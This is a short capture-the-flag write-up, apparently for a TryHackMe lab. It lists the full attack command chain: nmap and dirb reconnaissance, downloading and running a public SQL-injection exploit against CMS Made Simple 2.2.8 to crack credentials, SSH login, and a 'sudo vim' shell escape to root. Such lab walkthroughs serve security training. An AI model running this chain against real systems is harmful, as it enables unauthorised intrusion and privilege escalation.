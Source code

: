 # Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `dirb http://{TARGET IP} -r > {FILENAME2}.txt`
4. `cat {FILENAME2}.txt`
5. `firefox http://{TARGET IP}/simple`
6. `searchsploit "CMS made simple 2.2.8" --www`
7. `wget https://www.exploit-db.com/raw/46635`
8. `cd ~/Downloads`
9. `ls`
10. `python 46635`
11. `gedit 46635`
12. `python3 46635`
13. `python3 46635 -u http://{TARGET IP}/simple --crack -w {WORDLIST PATH}`
14. `gedit 46635`
15. `python3 46635 -u http://{TARGET IP}/simple --crack -u {WORDLIST PATH}`
16. `ssh {USERNAME}@{TARGET IP} -p 2222`
17. `whoami`
18. `pwd`
19. `ls`
20. `cat {FILE1}.txt`
21. `sudo -l`
22. `firefox "https://gtfobins.github.io/"`
23. `sudo vim -c ':!/bin/sh'`
24. `whoami`
25. `ls /root`
26. `cat {ROOT TEXT FILE}`

# Dissecting Some Commands
`nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
+


`python3 46635 -u http://{TARGET IP}/simple --crack -u {WORDLIST PATH}`
+

# Contributions
This writeup was made by Jonmar Corpuz, founder of **KnowCybersecurity** (www.knowwwcybersecurity.com)


Socials:
* TryHackMe ID: https://tryhackme.com/p/mtlfriends
* LinkedIn: https://www.linkedin.com/in/jonmar-corpuz-12771a234/
